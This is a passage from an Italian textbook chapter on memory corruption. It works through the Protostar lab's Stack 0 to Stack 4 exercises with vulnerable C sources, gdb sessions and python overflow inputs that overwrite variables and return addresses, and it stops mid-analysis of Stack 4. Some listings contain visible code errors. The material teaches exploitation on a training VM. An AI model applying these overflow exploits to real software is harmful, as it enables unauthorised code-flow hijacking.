\chapter{Corruzione della memoria}
In questo capitolo vedremo come analizzare vulnerabilità relative alla corruzione della memoria e in particolare delle sfide relative alla macchina virtuale Protostar.

\section{La macchina virtuale Protostar}
La macchina virtuale Protostar contiene eservizi di sicurezza legati alla corruzione della memoria. Ciascun esercizio corrisponde a un livello, per un totale di 24 esercizi divisi per temi:
\begin{itemize}
    \item stack-based buffer overflow
    \item format string
    \item heap-based buffer overflow
    \item network byte ordering
\end{itemize}
Una volta scaricata la iso della macchina\footnote{\href{http://exploit.education/protostar/}{http://exploit.education/protostar/}}, importiamo \texttt{exploit-exercises-protostar-2.iso} in VirtualBox, creando una nuova macchina virtuale. Gli account a disposizione sono due: un giocatore, ovvero un utente che intende partecipare alla sfida simulando il ruolo dell'attaccante, che si autentica con le credenziali \texttt{user}, \texttt{user}, e un amministratore, che si autentica con le credenziali \texttt{root}, \texttt{godmode}.

Dopo l'autenticazione, l'utente \texttt{user} usa le informazioni contenute nella directory \texttt{/opt/protostar/bin} per conseguire uno specifico obiettivo: modifica del flusso di esecuzione, modifica della memoria o esecuzione di codice arbitrario.

\section{Stack 0}
\textit{"This level introduces the concept that
memory can be accessed ouside its allocated
region, how the stack variables are laid out,
and that modifying outside of the allocated
memory can modify program execution"}

Il programma in questione si chiama \texttt{stack0.c} e il suo eseguibile ha il percorso \texttt{/opt/protostar/bin/stack0}. Il codice sorgente è il seguente:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\textbf{nomefile}
\begin{minted}[baselinestretch=1.0]{c}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
    volatile int modified;
    char buffer[64];
    
    modified = 0;
    gets(buffer);
    
    if(modified != 0) {
       printf("you have changed the 'modified' variable\n");
    } else {
       printf("Try again?\n");
    }
}
\end{minted}
\end{mdframed}
Il modus operandi è sempre lo stesso:
\begin{enumerate}
    \item Raccogliere più informazioni possibili sul sistema
    \item Aggiornare l'albero di attacco
    \item Provare l'attacco solo dopo aver individuato un
percorso plausibile
    \item Se l'attacco non è riuscito, tornare al punto 1
    \item Se l'attacco è riuscito, sfida vinta! 
\end{enumerate}
Prima di partire in quarta, è sempre buona norma raccogliere quante più informazioni possibili sul sistema in questione: architettura hardware, sistema operativo, metodi di input, ecc. Per ottenere informazioni sul sistema operativo in esecuzione, digitiamo \texttt{lsb\_release -a}. Scopriamo che Protostar esegue un SO Debian GNU/Linux v. 6.0.3 (Squeeze). Per ottenere informazioni sull'architettura digitiamo \texttt{arch}: scopriamo che Protostar esegue su un SO di tipo i686 (32 bit, Pentium II). Per ottenere info sui processori, digitiamo \texttt{cat /proc/cpuinfo}. Scopriamo che il processore installato è Intel Core i7.

Entriamo nella cartella di lavoro con \texttt{cd /opt/protostar/bin} e mandiamo in esecuzione \texttt{stack0}. Il programma resta in attesa di un input da tastiera: digitiamo qualcosa e premiamo \textit{Invio}, ottenendo il messaggio di errore:
\begin{lstlisting}
Try again?
\end{lstlisting}

Il programma \texttt{stack0} accetta input locali, da tastiera o da altro processo. L'input è una stringa generica: non sembrano esistere altri metodi per fornire input al programma. Analizzando il codice di \texttt{stack0.c} scopriamo che il programma stampa un messaggio di conferma se la variabile \texttt{modified} è diversa da zero. Notiamo inoltre che le variabili \texttt{modified} e \texttt{buffer} sono spazialmente vicine. Se le due variabili sono contigue in memoria, potremmo sovrascrivere \texttt{modified}: l'idea è quella di scrivere 68 byte in \texttt{buffer}, in quanto questo è un array di 64 caratteri, quindi i primi 64 byte riempiono \texttt{buffer} e i restanti \texttt{4 byte} riempiono \texttt{modified}.

Per analizzare la fattibilità dell'attacco dobbiamo verificare due ipotesi: se \texttt{gets(buffer)} permette l'input di una stringa più lunga di 64 byte e se le variabili \texttt{buffer} e \texttt{modified} sono contigue in memoria. Leggiamo la documentazione di \texttt{gets()}:
\begin{center}
    \textit{"gets() reads a line from stdin into the buffer
pointed to by s until either a terminating
newline or EOF, which it replaces with  \textbackslash0.
No check for buffer overrun is performed
(see BUGS below)."}
\end{center}
Leggendo la sezione BUGS scopriamo che \texttt{gets()} è deprecata in favore di \texttt{fgets()}, che invece limita i caratteri letti:
\begin{center}
    "Never use gets().
Because it is impossible to tell without knowing the
data in advance how many characters gets() will read
and because gets() will continue to store characters
past the end of the buffer.
It is extremely dangerous to use.
It has been used to break computer security.
Use fgets() instead."
\end{center}
Deduciamo quindi che non c'è controllo sul buffer overflow: di conseguenza \texttt{gets()} permette input più grandi di 64 byte. Per verificare invece che le due variabili siano contigue in memoria, possiamo utilizzare il comando \texttt{pmap}, che stampa il layout di memoria di un processo in esecuzione. Ad esempio, per la shell corrente:
\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ pmap $$
1795: -sh 
08048000    80K r-x--  /bin/dash
0805c000     4K rw---  /bin/dash
0805d000   140K rw---  [ anon ]
b7e96000     4K rw---  [ anon ]
b7e97000  1272K r-x--  /lib/libc-2.11.2.so
b7fd5000     4K -----  /lib/libc-2.11.2.so
b7fd6000     8K r----  /lib/libc-2.11.2.so
b7fd8000     4K rw---  /lib/libc-2.11.2.so
b7fd9000    12K rw---  [ anon ]
b7fe0000     8K rw---  [ anon ]
b7fe2000     4K r-x--  [ anon ]
b7fe3000   108K r-x--  /lib/ld-2.11.2.so
b7ffe000     4K r----  /lib/ld-2.11.2.so
b7fff000     4K rw---  /lib/ld-2.11.2.so
bffeb000    84K rw---  [ stack ] 
 total    1740K 
$ _ 
\end{lstlisting}
\end{mdframed}
L'output di \texttt{pmap} mostra l'organizzazione in memoria di aree di codice (\texttt{r-x}), aree dati costanti (\texttt{r--}), aree dati (\texttt{rw-}) e stack (\texttt{rw-}, \texttt{[ stack ]}). Dall'output di \texttt{pmap} si deduce che:
\begin{itemize}
    \item lo stack del programma è piazzato sugli indirizzi alti
    \item l'area di codice del programma (TEXT) è piazzata sugli indirizzi bassi
    \item l'area dati del programma (global data) è piazzata in mezzo
\end{itemize}

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width= 0.15\textwidth]{./Images/cap7/7.1.png}
\end{figure}
\FloatBarrier

L'output di \texttt{pmap} però non spiega in quale area sono piazzate \texttt{buffer} e \texttt{modified}, non spiega il formato di alcune aree (\texttt{[ anon ]}) e alcuni permessi (quelli nulli), per cui è necessario indagare ulteriormente. Cercando \textit{linux memory layout} otteniamo un documento che spiega le cose in modo molto chiaro\footnote{\href{https://manybutfinite.com/post/anatomy-of-a-program-in-memory/}{https://manybutfinite.com/post/anatomy-of-a-program-in-memory/}}. Comprendiamo quindi cosa sono le aree anonime, ovvero aree mappate in memoria che non corrispondono ad alcun file e sono utilizzate per memorizzare allocazioni molto grandi (maggiori di 128 KB). Cerchiamo \textit{linux pages zero permissions} e troviamo un documento\footnote{\href{http://stackoverflow.com/questions/16524895/proc-pid-maps-shows-pages-with-no-rwx-permissions-on-x86-64-linux}{http://stackoverflow.com/questions/16524895/proc-pid-maps-shows-pages-with-no-rwx-permissions-on-x86-64-linux}}, nel quale viene detto che il loader dinamico inserisce una pagina senza permessi (detta guard page) tra l'area di codice e l'area successiva. Le motivazioni sono due: separare codice da dati e catturare un tentativo di buffer overflow tramite l'imposizione di permessi nulli. 

Tuttavia non siamo ancora in grado di capire dove sono posizionate in memoria le variabili \texttt{buffer} e \texttt{modified}. Sempre nel primo documento troviamo spiegato che lo stack è organizzato per record di attivazione, detti \textbf{stack frame}. Lo stack cresce verso gli indirizzi bassi e viene gestito mediante tre registri:
\begin{itemize}
    \item \textbf{ESP} (stack pointer), che punta al top dello stack
    \item \textbf{EBP} (base pointer), che consente di accedere agli argomenti e alle variabili locali all'interno del frame associato alla funzione in esecuzione
    \item \textbf{EAX}, per trasferire i valori di ritorno al chiamante
\end{itemize}

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width= 0.6 \textwidth]{./Images/cap7/7.2.png}
\end{figure}
\FloatBarrier

Stando alla documentazione letta, la variabile \texttt{buffer} dovrebbe essere piazzata in un indirizzo più basso della variabile \texttt{modified}. Ciò dipende dal fatto che le variabili definite per ultime stanno in cima allo stack, e lo stack cresce verso gli indirizzi bassi. 

\vspace{5mm}

Vediamo un possibile attacco: l'attaccante fornisce a \texttt{stack0} un input qualsiasi lungo almeno 65 caratteri, ad esempio 65 volte \textit{'a'}. Eseguiamo \texttt{stack0} immettendo come input 65 a, e premiamo invio. La sfida è vinta perché \texttt{modified} è stata modificata. Vediamo l'albero di attacco completo e poi il terminale:

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width= 0.6 \textwidth]{./Images/cap7/7.3.png}
\end{figure}
\FloatBarrier

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ /opt/protostar/bin/stack0
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
you have changed the 'modified' variable
$ _
\end{lstlisting}
\end{mdframed}

È possibile generare automaticamente la sequenza di input necessaria con python, e poi passare l'output al programma:
\begin{center}
    \texttt{python -c 'print "a" * 65' |
/opt/protostar/bin/stack0}
\end{center}

\section{Stack 1}
\begin{center}
\textit{"This level looks at the concept of modifying
variables to specific values in the program,
and how the variables are laid out in memory"}
\end{center}
Il programma in questione si chiama \texttt{stack1.c} e il suo eseguibile ha il percorso \texttt{/opt/protostar/bin/stack1}. Il codice sorgente è il seguente:
\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\textbf{stack1.c}
\begin{minted}[baselinestretch=1.0]{c}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv) {

   volatile int modified;
   char buffer[64];
   
   if(argc == 1) {
      errx(1, "please specify an argument\n");
   }
 
   modified = 0;
   strcpy(buffer, argv[1]);
 
   if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
   } else {
      printf("Try again, you got 0x%08x\n", modified");
}
\end{minted}
\end{mdframed}
L'obiettivo della sfida è impostare la variabile \texttt{modified} al valore \texttt{0x61626364} a tempo di esecuzione. Il modus operandi è sempre lo stesso:
\begin{enumerate}
    \item Raccogliere più informazioni possibili sul sistema
    \item Aggiornare l'albero di attacco
    \item Provare l'attacco solo dopo aver individuato un
percorso plausibile
    \item Se l'attacco non è riuscito, tornare al punto 1
    \item Se l'attacco è riuscito, sfida vinta! 
\end{enumerate}
Entriamo nella cartella di lavoro e mandiamo in esecuzione il programma. Ci viene restituito un messaggio di errore poiché si aspetta un argomento da tastiera:
\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ /opt/protostar/bin/stack1
please specify an argument
$ _
\end{lstlisting}
\end{mdframed}
Passiamogli un argomento a caso e riproviamo:
\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ /opt/protostar/bin/stack1 abc
Try again, you got 0x00000000
$ _
\end{lstlisting}
\end{mdframed}
Il programma \texttt{stack1} accetta input locali tramite il suo primo parametro (\texttt{argv[1]}). L'input è una stringa generica e non sembrano esistere altri metodi per fornire input al programma. L'idea su cui si poggia l'attacco a \texttt{stack1} è identica a quella vista per \texttt{stack0}. Si costruisce l'input di 64 \textit{a} per riempire \texttt{buffer}, si appendono i 4 caratteri aventi codice ASCII \texttt{0x61}, \texttt{0x62}, \texttt{0x63}, \texttt{0x64} per riempire \texttt{modified}, e poi si invia l'input a \texttt{stack1}. I caratteri corrispondono a \textit{abcd}. Costruiamo la sequenza di input con python e poi vediamo l'albero di attacco:
\begin{center}
    /opt/protostar/bin/stack1
'python -c 'print "a" * 64 + "abcd"''
\end{center}

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width= 0.6 \textwidth]{./Images/cap7/7.4.png}
\end{figure}
\FloatBarrier
Otteniamo però un errore:
\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ /opt/protostar/bin/stack1
'python -c 'print "a" * 64 + "abcd"''
Try again, you got 0x64636261
$ _
\end{lstlisting}
\end{mdframed}
L'input, nonostante sia inserito in modo corretto, appare al contrario nell'output del programma. Questo perché l'architettura Intel è Little Endian, quindi interpreta i byte di memoria al contrario. Proviamo allora con lo stesso attacco mettendo i caratteri al contrario, e vinciamo la sfida.
\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ /opt/protostar/bin/stack1
'python -c 'print "a" * 64 + "dcba"''
you have correctly got the variable to the right value
$ _
\end{lstlisting}
\end{mdframed}

\section{Stack 2}
\begin{center}
    \textit{"Stack2 looks at environment variables, and
how they can be set"}
\end{center}
Il programma in questione si chiama \texttt{stack2.c} e il suo eseguibile ha il percorso \texttt{/opt/protostar/bin/stack2}. Vediamo il codice sorgente:
\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\textbf{stack2.c}
\begin{minted}[baselinestretch=1.0]{c}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv) {
   volatile int modified;
   char buffer[64];
   char *variable;
 
   if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
   }
 
   modified = 0;
   strcpy(buffer, variable);
 
   if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
   } else {
      printf("Try again, you got 0x%08x\n", modified");
 } 
\end{minted}
\end{mdframed}
L'obiettivo della sfida è impostare la variabile \texttt{modified} al valore \texttt{0x0d0a0d0a} a tempo di esecuzione. Il modus operandi è sempre lo stesso:
\begin{enumerate}
    \item Raccogliere più informazioni possibili sul sistema
    \item Aggiornare l'albero di attacco
    \item Provare l'attacco solo dopo aver individuato un
percorso plausibile
    \item Se l'attacco non è riuscito, tornare al punto 1
    \item Se l'attacco è riuscito, sfida vinta! 
\end{enumerate}
Il programma \texttt{stack2} accetta input locali tramite una variabile di ambiente \texttt{GREENIE}. L'input è una stringa generica, non sembrano esistere altri metodi per fornire input al programma, e la variabile di ambiente \texttt{GREENIE} non esiste, dobbiamo crearla noi. L'idea di attacco è identica alla precedente: si costruisce un input spazzatura di 64 byte per riempire buffer, si appendono i 4 caratteri col codice ASCII che ci serve alla fine (al rovescio) per riempire \texttt{modified} e si invia l'input a \texttt{stack2}. I caratteri corrispondono a \texttt{ \textbackslash n} (line feed) e \texttt{ \textbackslash r} (carriage return). A questo punto ci basta impostare \texttt{GREENIE} al valore desiderato con python:
\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$  export GREENIE='python -c 'print "a" * 64'' + "\x0a\x0d\x0a\x0d"'' 
$ /opt/protostar/bin/stack2
you have correctly modified the variable
\end{lstlisting}
\end{mdframed}
L'albero di attacco è molto semplice:

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width= 0.6 \textwidth]{./Images/cap7/7.5.png}
\end{figure}
\FloatBarrier

\section{Stack 3}
\begin{center}
    \textit{"Stack3 looks at environment variables, and
how they can be set, and overwriting function
pointers stored on the stack"}
\end{center}
Il programma in esecuzione si chiama \texttt{stack3}, e il suo eseguibile ha il solito percorso. Vediamo il codice sorgente:
\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\textbf{stack3.c}
\begin{minted}[baselinestretch=1.0]{c}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
   printf("code flow succesfully changed\n");
}

int main(int argc, char **argv) {

   volatile int (*fp)();
   char buffer[64];
   fp=0;
   gets(buffer);
   
   if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n",fp);
      fp();
   }
} 
\end{minted}
\end{mdframed}
L'obiettivo della sfida è impostare \texttt{fp=win} a
tempo di esecuzione: ciò modifica del flusso di esecuzione,
poichè provoca il salto del codice
alla funzione \texttt{win()}. Il modus operandi è sempre lo stesso:
\begin{enumerate}
    \item Raccogliere più informazioni possibili sul sistema
    \item Aggiornare l'albero di attacco
    \item Provare l'attacco solo dopo aver individuato un
percorso plausibile
    \item Se l'attacco non è riuscito, tornare al punto 1
    \item Se l'attacco è riuscito, sfida vinta! 
\end{enumerate} 
Il programma accetta input da locali da tastiera o da altro processo (tramite pipe). L'input è una generica stringa, e non sembrano esistere altri metodi per fornire input al programma. Dal punto di vista concettuale la sfida \texttt{stack3} è identica alle precedenti; l'unica difficoltà aggiuntiva risiede nella natura del numero da iniettare: prima era noto a priori, mentre stavolta va estratto dal binario eseguibile. 

Supponiamo di poter recuperare l'indirizzo della funzione \texttt{win()} a partire dal binario. Una volta trovato l'indirizzo ci basta appenderlo all'input, in modo che il valore di \texttt{fp} viene sovrascritto con l'indirizzo della funzione \texttt{win()}. Poiché a questo punto \texttt{fp} è diverso da zero, viene provocato il salto a \texttt{fp} (cioè a \texttt{win()}). Ci viene fornito un suggerimento:
\begin{center}
    \textit{"both gdb and objdump is your friend
in order to determine where the
win() function lies in memory."}
\end{center}
GDB (GNU debugger) è il debugger predefinito per GNU/Linux: supporta diversi linguaggi di programmazione, tra cui il C. Consente di visualizzare cosa accade in un programma durante la sue esecuzione o al momento del crash. Il comando \texttt{objdump} permette l'estrazione di informazioni da un file oggetto, da una libreria o da un binario eseguibile, e inoltre permette di disassemblare (produrre assembly dal codice macchina).

GDB viene invocato con il comando \texttt{gdb} seguito dal nome del file binario eseguibile. L'opzione \texttt{-q} permette di evitare la stampa dei messaggi di copyright. Una volta avviato, GDB legge i comandi dal terminale finché non si digita \texttt{quit} (\texttt{q}). Per stampare il valore di un'espressione di usa il comando \texttt{print} (\texttt{p}).

\vspace{5mm}

L'idea dell'attacco è quindi quella di recuperare l'indirizzo della funzione \texttt{win()} tramite gdb, costruire un input spazzatura di 64 caratteri seguito dall'indirizzo di \texttt{win()} in formato Little Endian, e infine di passare l'input a \texttt{stack3} via pipe.
\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ gdb -q /opt/protostar/bin/stack3
Reading symbols from /opt/protostar/bin/stack3..done
(gdb) p win

$1 = {void (void)} 0x8048424 <win>

\end{lstlisting}
\end{mdframed}
Ora possiamo creare il nostro output con python e inviarlo al programma:
\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ 'python -c 'print "a" * 64 + "\x24\x84\x04\x08"''
| /opt/protostar/stack3 
calling function pointer, jumping to 0x8048424
code flow succesfully changed
\end{lstlisting}
\end{mdframed}
Vediamo l'albero di attacco:

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width= 0.6 \textwidth]{./Images/cap7/7.6.png}
\end{figure}
\FloatBarrier

\section{Stack 4}
\begin{center}
    \textit{"Stack4 takes a look at overwriting saved
EIP and standard buffer overflows"}
\end{center}
EIP è l'instruction pointer, ovvero il registro che contiene l'indirizzo della prossima istruzione da eseguire (un po' come il program counter). Il programma in questione si chiama \texttt{stack4.c} e sta al solito posto. Vediamo il codice sorgente:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\textbf{stack4.c}
\begin{minted}[baselinestretch=1.0]{c}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
   printf("code flow succesfully changed\n");
}

int main(int argc, char **argv) {
   char buffer[64];

   gets(buffer);
} 
\end{minted}
\end{mdframed}
L'obiettivo della sfida è eseguire la funzione \texttt{win()} a tempo di esecuzione. Ciò modifica il flusso di esecuzione perché provoca il salto del codice alla funzione \texttt{win}. Il modus operandi è sempre lo stesso:
\begin{enumerate}
    \item Raccogliere più informazioni possibili sul sistema
    \item Aggiornare l'albero di attacco
    \item Provare l'attacco solo dopo aver individuato un
percorso plausibile
    \item Se l'attacco non è riuscito, tornare al punto 1
    \item Se l'attacco è riuscito, sfida vinta! 
\end{enumerate} 
Il programma \texttt{stack4} accetta input locali da tastiera o da altro processo tramite pipe. L'input è una stringa generica e non sembrano esistere altri metodi per fornire input al programma. Provando a mandare in esecuzione il programma, questo resta in attesa di un input da tastiera: digitiamo una decina di caratteri a caso e premiamo INVIO: ci viene restituito il prompt (non succede niente). I caratteri vengono memorizzati in \texttt{buffer} e il programma termina normalmente. Dato che \texttt{buffer} può contenere 64 byte, costruiamo un output che trabocca con python ed eseguiamo il programma:
\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ python -c 'print "a" * 80' | /opt/protostar/stack4
Segmentation fault
$ _
\end{lstlisting}
\end{mdframed}
Il programma va in crash: 64 \textit{a} vengono scritte in \texttt{buffer}, mentre le rimanenti vengono scritte in locazioni di memoria contigue, di cui alcune riservate alla memorizzazione della variabile EBP per la gestione dello stack. 

A differenza della sfida precedente, nel programma \texttt{stack4} non c'è alcuna variabile esplicita da sovrascrivere. Abbiamo bisogno di traovare una locazione di memoria che se sovrascritta, provoca una modifica del flusso di esecuzione. Possiamo usare la cella di indirizzo di ritorno nello stack frame corrente. L'indirizzo di ritorno è una cella di dimensione pari all'architettura (32 bit - 4 byte nel caso di Protostar) e contiene l'indirizzo della prossima istruzione da eseguire al termine della funzione descritta nello stack frame.

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width= 0.3 \textwidth]{./Images/cap7/7.7.png}
\end{figure}
\FloatBarrier

L'idea è quella di sovrascrivere l'indirizzo di ritorno con quello della funzione \texttt{win()}. Per fare ciò serve identificare:
\begin{itemize}
    \item l'indirizzo della cella di memoria contenente l'indirizzo di ritorno
    \item l'indirizzo della funzione \texttt{win()} (sappiamo già come fare)
\end{itemize}
Eseguiamo passo passo il programma tramite il debugger per determinare il layout dello stack: in questo modo capiremo in quale cella di memoria si trova l'indirizzo di ritorno. Lo stack frame da analizzare è quello di \texttt{main()}. Sovrascrivendo l'indirizzo di ritorno di \texttt{main()} con quello della funzione \texttt{win()} vinceremo la sfida. 

Iniziamo con il recupero dell'indirizzo della funzione \texttt{win()} tramite la funzionalità \texttt{print} di gdb:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ gdb -q /opt/protostar/bin/stack4
Reading symbols from /opt/protostar/bin/stack4..done
(gdb) p win
$1 = {void (void)} 0x80483f4 <win>
\end{lstlisting}
\end{mdframed}
Per ottenere l'indirizzo di ritorno di \texttt{main()} è necessario ricostruire il layout dello stack di \texttt{stack4}. Se abbiamo il codice sorgente è facile farlo, senza il sorgente dobbiamo disassemblare \texttt{main()} e capire cosa fa. Possiamo usare la funzione \texttt{disassemble} di gdb:
\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
(gdb) disassemble main
Dump of assembler code for function main:
0x08048408  <main+0>:   push  %ebp
0x08048409  <main+1>:   mov   %esp, %ebp
0x0804840b  <main+3>:   and   $0xfffffff0, %esp
0x0804840e  <main+6>:   sub   $0x50, %esp
0x08048411  <main+9>:   lea   0x10 (%esp), %eax
0x08048415  <main+13>:  mov   %eax, (%esp)
0x08048418  <main+16>:  call  0x804830c <gets@plt>
0x0804841d  <main+21>:  leave
0x0804841e  <main+22>:  ret
End of assembler dump.
\end{lstlisting}
\end{mdframed}
Dall'analisi del codice assembly vediamo che sono coinvolti alcuni registri, tra cui quelli legati allo stack:
\begin{itemize}
    \item ESP (stack pointer), che punta al top dello stack
    \item EBP (base pointer), che consente di accedere agli argomenti e alle variabili locali all'interno di un frame
\end{itemize}
Inseriamo un breakpoint alla prima istruzione per vedere come viene costruito lo stack, e poi eseguiamo il programma:
\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
(gdb) b *0x8048408

Breakpoint1 at 0x80048408: file stack4/stack4.c, line 12
(gdb) r
Starting program: /opt/protostar/bin/stack4

Breakpoint1, main (argc=1, argv=0xbffffdf4) at stack4/stack4.c: 12
\end{lstlisting}
\end{mdframed}
Per capire l'evoluzione dello stack è necessario stampare i valori degli indirizzi puntati dai registri EBP e ESP ad ogni passo dell'esecuzione:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
(gdb) p $ebp
$2 = (void *) 0xbffffdc8
(gdb) p $esp
$3 = (void *) 0xbffffd4c
\end{lstlisting}
\end{mdframed}

